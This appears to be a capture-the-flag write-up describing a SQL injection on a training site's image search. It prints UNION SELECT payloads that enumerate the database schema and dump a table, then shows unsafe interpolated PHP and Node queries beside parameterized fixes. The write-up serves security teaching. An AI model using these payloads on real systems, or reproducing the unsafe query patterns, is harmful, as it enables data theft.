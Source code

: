 # Image Search Engine SQL injection

## How we found the breach

Before reading this breach explanation please have a look to this breach before:

[SQL injection on members table explanation →](../../sql_injection_members_table/Ressources/README.md)

The principle is the same as for the members SQL breach. As in the previous SQL injection we achieved to retrieve the whole database tables and columns. `list_images` table is not spared:

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : id
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : url
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : title
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : comment
```

`list_images` table has 4 columns:

- id
- url
- title
- comment

### UNION SELECT and CONCAT SQL injection

We will then retrieve all the table's entries with all their fields.

Input:
```sql
-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

Output:
```sql
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 1https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 2https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 3https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 4https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

We can see that the last image contains a hash to handle `1928e8083cf461a51303633093573c46`.

#### Retrieving the flag

Via md5 decrypt of `1928e8083cf461a51303633093573c46` string, contained in the `comment` column of `list_images` table, we get the original plain text: `albatroz`.

Hashing `albatroz` with sha256 algorithm gives us the flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

## How to exploit the breach

Having a SQL injection breach can lead to leaking the whole database entries, involving users' personal information, emails, password, etc. 

But not only about stealing data, a hacker could even insert entries in a specific table, for example to add credits to his account. A hacker could even delete all the entries of a table – let's hope you made regular backups of your database.

## How to avoid this breach

A solution to avoid this kind of breach would be to escape received image id using either your native database escaping tools or manually.

An other solution would be to use an ORM that will natively prevent SQL injections.

You could also define restricted accesses to the connection to the database: restricted access to only a few tables, no deletion permission, no reading permission for critical tables, etc.

### PHP Example

Unsecured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = {$id}");
$statement->execute();
```

Secured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = ?");
$statement->execute([$id]);
```

### Node Example

Unsecured sql querying:

```js
connection.query(
  `select comment, url from list_images where list_images.id = ${id}`,
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });

```

Secured sql querying:

```js
connection.query(
  'select comment, url from list_images where list_images.id = ?',
  [id],
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });
```
